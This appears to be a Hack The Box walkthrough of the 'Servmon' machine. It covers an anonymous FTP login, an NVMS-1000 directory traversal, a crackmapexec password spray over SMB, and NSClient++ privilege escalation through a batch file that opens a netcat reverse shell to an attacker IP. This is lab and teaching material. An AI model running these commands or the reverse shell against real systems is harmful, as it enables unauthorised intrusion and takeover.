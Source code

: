 # Servmon

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 01:44 EDT
Nmap scan report for 10.129.227.77
Host is up (0.0077s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Loads of ports. This is an easy and old machine, so it shouldn't be too complex.

### Anonymous FTP

When I see FTP, the first thing I check for is anomymous logins. This works for this machine

```
$ ftp 10.129.227.77      
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49677|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
```

We can find 2 files, one `Confidential.txt` and a `Notes to do.txt`. Reading the confidential one highlights that there is a password file somewhere:

{% code overflow="wrap" %}
```
$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
{% endcode %}

Great!&#x20;

### LFI

On port 80 and port 8443, there are HTTP and HTTPS sites presents respectively. Looking at port 80, we see this is running NVMS-1000:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

There are public exploits for these:

```
$ searchsploit nvms                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modific | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Following the PoC, we can see it works:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Great! Now, we can read the `password.txt` file that we found hints of earlier. Here are the passwords retrieved:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

With this, we can run a `crackmapexec` to brute force the possible passwords.&#x20;

```
./cme smb 10.129.227.77 -u /home/kali/htb/servmon/users -p /home/kali/htb/servmon/passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

This would find that the credentials of `nadine:L1k3B1gBut7s@W0rk` is the right one. With these credentials, we can SSH into the machine as the `nmap` scan found earlier showed port 22 was open.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Then grab the user flag.

## Privilege Escalation

### NSClient++ Privilege Escalation

Earlier, I mentioned that port 8443 was running a HTTPS site and we have not enumerated it yet. This port had NSClient++ running on it:

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

None of the functions work. Searching for public exploits works however:

```
$ searchsploit nsclient                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The Privilege Escalation is the one I need now. Following the PoC, we first need to grab the administrator password:

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

Then we need to download `nc.exe` to the machine and a `.bat` file that executes a reverse shell

```batch
@echo off
c:\Windows\Tasks\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Then we need to login, but for some reason the application is blocking me. When we check the `nsclient.ini` configuration file, we see that it only allows `localhost` to access the services:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

So we need to do some port forwarding using `ssh`.&#x20;

```
ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

Then we can access the site and continue.&#x20;

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

Login using the administrator password we found earlier. There are automated PoCs for this:

{% embed url="https://packetstormsecurity.com/files/157306/NSClient-0.5.2.35-Authenticated-Remote-Code-Execution.html" %}

We can run it like so after downloading the relevant files onto the machine:

```bash
python3 pe.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c "c:\Windows\Tasks\evil.bat"
```

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Rooted!
